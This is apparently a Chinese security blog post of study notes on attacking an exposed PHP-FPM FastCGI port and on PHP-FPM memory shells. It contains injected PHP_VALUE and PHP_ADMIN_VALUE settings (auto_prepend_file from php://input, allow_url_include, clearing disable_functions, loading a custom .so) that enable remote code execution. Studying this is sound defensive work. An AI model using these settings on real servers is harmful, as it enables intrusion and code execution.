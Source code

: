 ```yaml
---
title: "PHP-FPM内存马&攻击CGI学习笔记"
slug: "php-fpm-mem-shell-study-notes"
description: "什么叫终身学习 就是学了忘 然后再学（bushi"
date: 2022-09-13T14:46:49+08:00
categories: ["NOTES&SUMMARY"]
series: []
tags: ["PHP", "php-fpm"]
draft: false
toc: true
---
```


看到带佬用php-fpm做内存马，于是把php-fpm和cgi相关的知识再拿出来学学学

## 攻击php-fpm

FastCGI是常见的webserver动态脚本执行模型之一，主要目的是将webserver和动态语言的执行分成两个不同的常驻进程，当webserver接收到动态脚本的请求，就通过fastcgi协议将请求通过网络转发给fastcgi进程（即fpm），处理之后再将结果传给webserver，然后webserver再输出给浏览器；这种模型下不需要嵌入脚本解释器到webserver中，增加伸缩性和可维护性

fpm的默认监听端口是9000，如果目标对外开放了9000端口，我们可以利用这个开放的fpm对其发送符合fastcgi协议的请求，当header中的type指定为4时 可以给php-fpn传递环境参数，包含以下的内容

```
{
    'GATEWAY_INTERFACE': 'FastCGI/1.0',
    'REQUEST_METHOD': 'GET',
    'SCRIPT_FILENAME': '/var/www/html/index.php',
    'SCRIPT_NAME': '/index.php',
    'QUERY_STRING': '?a=1&b=2',
    'REQUEST_URI': '/index.php?a=1&b=2',
    'DOCUMENT_ROOT': '/var/www/html',
    'SERVER_SOFTWARE': 'php/fcgiclient',
    'REMOTE_ADDR': '127.0.0.1',
    'REMOTE_PORT': '12345',
    'SERVER_ADDR': '127.0.0.1',
    'SERVER_PORT': '80',
    'SERVER_NAME': "localhost",
    'SERVER_PROTOCOL': 'HTTP/1.1'
}
```

其中`SCRIPT_FILENAME`就是php-fpm会去执行的文件，由于5.3.9版本引入了`security.limit_extensions`的选项，默认对后缀名限制在了php家族，所以我们可以考虑找到已存在php文件（安装时附带的php文件 可以通过`find / -name "*.php"`来搜索一下默认环境 比如/usr/local/lib/php/PEAR.php），向其中注入恶意代码；而fpm支持通过设置`FASTCGI_PARAMS`来动态修改 php 的设置，可以利用这两项

```
'PHP_VALUE': 'auto_prepend_file = php://input',
'PHP_ADMIN_VALUE': 'allow_url_include = On'
# "allow_url_include = On\ndisable_functions = \nsafe_mode = Off"
# "allow_url_include = On\nextension = /path/to/abc.so"
```
